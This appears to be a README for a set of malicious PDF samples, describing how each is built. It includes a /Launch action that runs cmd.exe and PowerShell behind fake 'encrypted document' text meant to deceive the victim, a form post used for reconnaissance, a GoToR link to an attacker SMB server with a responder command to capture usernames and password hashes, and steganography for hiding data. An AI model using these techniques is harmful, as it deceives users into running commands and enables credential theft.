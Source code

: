 # PDF:

Open pdf in vim for inspect them...

[Adobe security advisories](https://helpx.adobe.com/africa/security.html)

## [1] claw_powershell.pdf

Run powershell command.. A warning will be prompt to the user.<br>
![warning msg](pdf/warning_psh.png)<br>
But if we scroll up, we can see:<br>
![warning2](pdf/warning_psh_cmd.png)
We use:
- `Action/S/Launch/Win` for specifying wich action to do, in this case lunch action on windows.
- `/F (cmd.exe)` for lunch cmd.exe.
- `/P (/C start powershell.exe -Command "echo 'hello, this windows will be close in 10sec...'; sleep 10"` is the parameters to give to cmd.exe
- `This document is encrypted
To view the encrypted content please tick the "Do not show this message again" box
and press Open.` is for "hide" the previouses steps. (3lines and the victim will not see what we really do (unless if he scroll up))
### [!] Modify message popup will only work with adbe < 9.3.4

---

## [2] claw_js-alert.pdf

Using `/JS` will execute some javascript. Some commands are restricted.<br>
But we can steal launch popup or send form.
###email functions:
With adobe you have 4 functions for send emails:
- `app.mailMsg()`    : This function sends an email message with no attachments.
- `doc.mailForm()`   : This function sends the form data in fdp (Form Data Format) as a file attachment to the email. (dont work on adobe 9)
- `doc.mailDoc()`    : This function sends the entire PDF file as an email attachment.
- `doc.submitForm()` : This function can send form data in a variety of formats.

[AcroJS API Reference](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/js_api_reference.pdf)

---

## [3] claw_post.pdf

Make a post .. <br>
```pdf
/S /SubmitForm
/F
<<
/F (http://172.25.0.7:8080/test.php)
/FS /URL
```

- `/S /SubmitForm`                       : The  type  of  action (in this case /SubmitForm
- `/F (http://172.25.0.7:8080/test.php)` : The  URL of the form
- `/FS /URL`                             : The file specificatin, in this case "/URL"

### [!] A popup will prompt the user for accept the post or not. The message can't be change (url + warnings)

Very usefull for retrieve adobe version (Reco):<br><br>
![version](pdf/get_adobe_version.png)

---

## [4] claw_responder.pdf

Retrieve username and hash .<br>
In this this case we use:
- `GoToR|GoToE` : (Go To Remote & Go To Embedded) The function to opens an embedded PDF file automatically without notifying the user.In this case we use `/F` (the location off the pdf) "/F (\\\\attacker_smb_server\\test)"

You should first run:<br>
```sh
sudo responder -I <INTERFACE> -wF
```
on the attacker host..<br>
![responder](pdf/responder.png)

---

## [5] claw_simple_steg.pdf

Hide stuff on non used object.

---

## [6] claw_b64-comment_steg.pdf

Hide stuff in pdf comment using `%`.

---

## [7] claw_img_steg.pdf

Hide stuff inside an image used by the pdf.<br>
For extract :<br>
```sh
binwalk --dd='jpeg:jpg' claw_img_steg.pdf
steghide extract -sf _claw_img_steg.pdf.extract/*jpg
#no password.. just press enter
```


